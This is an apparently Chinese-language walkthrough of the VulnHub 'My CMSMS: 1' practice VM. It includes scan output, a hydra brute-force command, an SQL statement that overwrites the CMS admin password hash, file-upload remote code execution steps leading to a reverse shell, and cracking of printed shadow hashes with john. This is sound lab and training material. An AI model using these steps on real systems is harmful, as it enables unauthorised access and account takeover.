 # My CMSMS: 1

2024-5-27 https://www.vulnhub.com/entry/my-cmsms-1,498/

difficulty: Easy to Intermediate

## IP

192.168.5.30

## Scan

Open Port -> 22,80,3306,33060

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 27219eb53963e91f2cb26bd33a5f317b (RSA)
|   256 bf908aa5d7e5de89e61a36a193401857 (ECDSA)
|_  256 951f329578085045cd8c7c714ad46c1c (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
|_http-title: Home - My CMS
3306/tcp  open  mysql   MySQL 8.0.19
|_ssl-date: TLS randomness does not represent time
| mysql-info:
|   Protocol: 10
|   Version: 8.0.19
|   Thread ID: 45
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, ConnectWithDatabase, LongColumnFlag, Speaks41ProtocolOld, InteractiveClient, ODBCClient, SupportsTransactions, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, LongPassword, IgnoreSigpipes, DontAllowDatabaseTableColumn, FoundRows, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: (\x08\x0E\x1DMTIbLM+`C\x1Fd[Gf'2
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.19_Auto_Generated_Server_Certificate
| Not valid before: 2020-03-25T09:30:14
|_Not valid after:  2030-03-23T09:30:14
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

先看看 80 的 web 吧，gobuster 扫描：

```
gobuster -t 64 dir -u http://192.168.5.30/ -k -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e

http://192.168.5.30/index.php            (Status: 200) [Size: 19342]
http://192.168.5.30/modules              (Status: 301) [Size: 314] [--> http://192.168.5.30/modules/]
http://192.168.5.30/uploads              (Status: 301) [Size: 314] [--> http://192.168.5.30/uploads/]
http://192.168.5.30/doc                  (Status: 301) [Size: 310] [--> http://192.168.5.30/doc/]
http://192.168.5.30/admin                (Status: 301) [Size: 312] [--> http://192.168.5.30/admin/]
http://192.168.5.30/assets               (Status: 301) [Size: 313] [--> http://192.168.5.30/assets/]
http://192.168.5.30/lib                  (Status: 301) [Size: 310] [--> http://192.168.5.30/lib/]
http://192.168.5.30/config.php           (Status: 200) [Size: 0]
http://192.168.5.30/tmp                  (Status: 301) [Size: 310] [--> http://192.168.5.30/tmp/]
http://192.168.5.30/phpmyadmin           (Status: 401) [Size: 459]
http://192.168.5.30/phpinfo.php          (Status: 200) [Size: 90101]
http://192.168.5.30/server-status        (Status: 403) [Size: 277]
```

访问首页，发现 This site is powered by CMS Made Simple version 2.2.13。看看这个 CMS 是否存在漏洞，找到的一些 exp 利用都是先需要认证用户，看样子，需要先得到一个系统的用户凭据。

http://192.168.5.30/admin/login.php 访问登陆页面，先尝试些弱密码。没有找到，尝试用 hydra 进行爆破：

```
hydra -t 20 -l admin -P ~/tools/dict/rockyou.txt 192.168.5.30 -f http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"
```

没有爆到。

还是看看 mysql 的吧，看看能不能从数据库中获得 CMS 的用户名和密码，尝试弱密码登陆最后发现，root:root 可以登陆到数据库。

找到管理员的密码：

```
MySQL [cmsms_db]> select * from cms_users;
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
| user_id | username | password                         | admin_access | first_name | last_name | email             | active | create_date         | modified_date       |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
|       1 | admin    | fb67c6d24e756229aab021cea7605fb3 |            1 |            |           | admin@mycms.local |      1 | 2020-03-25 09:38:46 | 2020-03-26 10:49:17 |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
```

找不到 password 哈希对应的明文密码。

只有用新密码重置这个哈希了，然后就能登陆了。

经过寻找资料，找到了这个 CMS 的加密方式：

```
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'123'))) where username = 'admin';
```

将 admin 的密码改成 123. 便可以登陆到后台系统中。

https://www.exploit-db.com/exploits/48742 这里存在文件上传的 RCE，按照操作步骤上传后门代码：

```
- Create .phtml or .ptar file with malicious PHP payload;
- Upload .phtml or .ptar file in the 'File Manager' module;
- Click on the uploaded file to perform remote code execution.

这里是上传点：
http://192.168.5.30/admin/moduleinterface.php?mact=FileManager,m1_,defaultadmin,0&__c=074c482351e60ceb54e
```

kali 上监听 8888 端口，访问上传的后门文件，触发反弹 shell：

```
curl http://192.168.5.30/uploads/images/8888.phtml
```

得到了反弹的 shell，先升级 tty：

```
www-data@mycmsms:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(nagios),1002(nagcmd)
```

开始系统枚举，/home 目录下发现 armour 用户。

发现非默认的 suid 程序 /home/armour/binary.sh 查看内容：

```
www-data@mycmsms:/home/armour$ strings binary.sh
#!/bin/bash
echo "Usage: binary.sh COMMAND"
echo `$1`
```

可以执行传入的参数，但是不能切换到其他用户。

发现备份文件 /var/backups/shadow.bak:

```
root:$6$iJMQ9Yh/FREEfPRO$PkfB7e4jnXBppAd4QJ1l9e068Buung0nhx0i1E6p7AzeYBE6O6BqHme82yVAWxvy.TeP1IcOJ6PB.MTd2CRKW/
armour:$6$lKH6hAvjcR1pMBbw$tHxI4VfjoB3JEyPsd4tHzj.IqObn4kRCgkb/rfHRBbo76X2rp9yT93YaSQuvQ9Qd3gT1YJaGxKyb0J3fNjkGb0
```

尝试用 john 进行解密，得到了 root 的密码:Password

su 切换到 root 用户，得到最终的 falg：

```
root@mycmsms:~# cat proof.txt
   ##############################################################################################
   #                                      Armour Infosec                                        #
   #                         --------- www.armourinfosec.com ------------                       #
   #                                             My CMSMS                                       #
   #                               Designed By  :- Pankaj Verma                                 #
   #                               Twitter      :- @_p4nk4j                                     #
   ##############################################################################################


			          **Thanks for Trying this Box**


					Here's Your Flag


				b315ed055787c0994d8a7b08b2be9244
```

